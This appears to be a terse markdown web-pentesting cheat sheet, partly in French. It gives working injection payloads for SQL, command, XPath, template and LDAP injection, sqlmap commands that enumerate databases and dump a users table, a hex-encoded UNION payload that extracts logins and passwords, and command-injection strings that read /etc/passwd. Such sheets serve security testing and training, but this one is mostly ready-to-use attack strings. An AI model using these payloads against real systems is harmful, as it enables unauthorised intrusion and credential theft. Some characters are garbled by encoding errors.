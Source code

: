 **Path traversal**  
- Search for parameters pointing to a file within the application  
- Tool : DotDotPwn  

**SQL injection**   
- Authentication SQLi
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]\
SQLi method :\
	If format like "id=1" -> integer-based injection\
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request\
	2 - Find if it is string-based or integer-based\
	3 - Try to trigger an error\
	4 - Try to fallback on the default payload by modifying it\
	
Get column number: "order by 2", "group by 2"

[sqlmap -u "http://testsite.com/login.php" --dbs]\
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]\
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump]\
  
Routed SQLi: `-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a`  
(Using Hex of: `-1' union select login,password from users-- a` to bypass filters)  
Error based : convert(), file_name()...\

**Command injection**  
`original_cmd_by_server; ls`  
`original_cmd_by_server && ls`  
`original_cmd_by_server | ls`  
`original_cmd_by_server || ls`    Only if the first cmd fail  
Command execution inside a command :  
`original_cmd_by_server `cat /etc/passwd` `    
`original_cmd_by_server $(cat /etc/passwd)`    

**XPATH injection**    
Similar to SQLi, basic payloads :     
`' or '1'='1`  
`' or ''='`    
`x' or 1=1 or 'x'='y`    
`/`  
`//`    
`//*`    
`*/*`    
`@*`    
  
**Template injection**  
Basic payload : `${2*2}`  
Template injection cheatsheet : http://leperche.space/images/template_injection.png 

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))  
